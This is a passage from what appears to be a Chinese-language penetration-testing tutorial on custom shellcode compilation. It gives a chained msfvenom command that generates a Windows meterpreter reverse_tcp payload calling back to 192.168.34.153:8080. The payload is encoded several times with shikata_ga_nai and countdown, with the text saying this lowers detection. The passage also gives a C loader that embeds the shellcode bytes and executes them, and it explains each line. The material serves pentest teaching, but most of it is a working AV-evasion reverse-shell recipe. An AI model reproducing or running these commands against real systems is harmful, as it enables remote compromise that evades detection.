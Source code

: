 # 自定义编译

自定义编译有助于大幅降低检测能力。您可以利用 internet 上提供的自定义外壳代码，并根据需要调整它们以执行所需的功能。

在本节中，我们将介绍在基本级别创建自定义外壳代码。外壳代码的创建可能会变得复杂，并且随着渗透测试职业的发展，您将提高编写复杂外壳代码的技能。我们将介绍 C 编程语言中外壳代码的创建。

诸如 Exploit DB 之类的网站拥有大量由社区发布的外壳代码。可通过以下 URL 访问：[https://www.exploit-db.com/shellcodes](https://www.exploit-db.com/shellcodes) 。

让我们使用 C 创建一个自定义外壳代码

首先，我们将使用 MSFvenom 创建一个外壳代码文件。让我们使用前面创建的相同外壳代码，但这次，我们将把它输出到一个`.C`文件：

1.  在终端窗口中，使用`mkdir msfv-shellcode`命令创建一个新目录。
2.  使用`cd msfv-shellcode`命令导航到目录。
3.  现在，使用以下链接的命令创建有效负载：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f c -o MSFV-shellcode.c
```

执行上述命令后，MSFvenom 将创建外壳代码文件。

现在，我们需要添加一些变量，这样我们就可以使用 C 编程语言来编译它。编辑刚刚使用文本编辑器或 nano 创建的`MSFV-shellcode.c`文件。

添加以下以粗体标记的行：

```
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xbd\xa1\xe2\xe6\x8b\xd9\xeb\xd9\x74\x24\xf4\x5f\x2b\xc9\x66"
"\xb9\x1b\x01\x83\xef\xfc\x31\x6f\x12\x03\x6f\x12\x43\x17\x5c"
"\x54\x5a\x66\x22\xb1\x95\x4e\x51\x62\xd1\x2e\xa9\xa3\x7f\x68"
"\xd9\x32\xfc\x65\x1e\x05\x55\x6b\xdc\x31\x97\xb0\xa9\x85\xdb"
--snip--

int main ()
{
 printf("Shellcode Length: %d\n", strlen(buf));
 int (*ret)() = (int(*)())buf;

 ret();
}
```

在前面的代码中，我剪切了外壳代码，以便所需的代码行可见。在外壳代码文件中，`unsigned char buf [] =`行下面将有更多字符。

在前面的代码中，我们添加了以下组件：

| `#include<stdio.h>` | 这里，我们调用一个引用输入和输出函数的库。 |
| `#include<string.h>` | 在这里，我们调用一个库来处理字符串，因为我们使用`strlen`函数来计算字符串长度 |
| `int main` | 此字符串用于声明函数。在 C 编程语言中，`main`下的函数是程序加载时运行的函数。 |
| `printf("Shellcode Length: %d\n` | 此行用于发送打印输出并屏蔽外壳代码长度。 |
| `int (*ret)() = (int(*)())buf;`
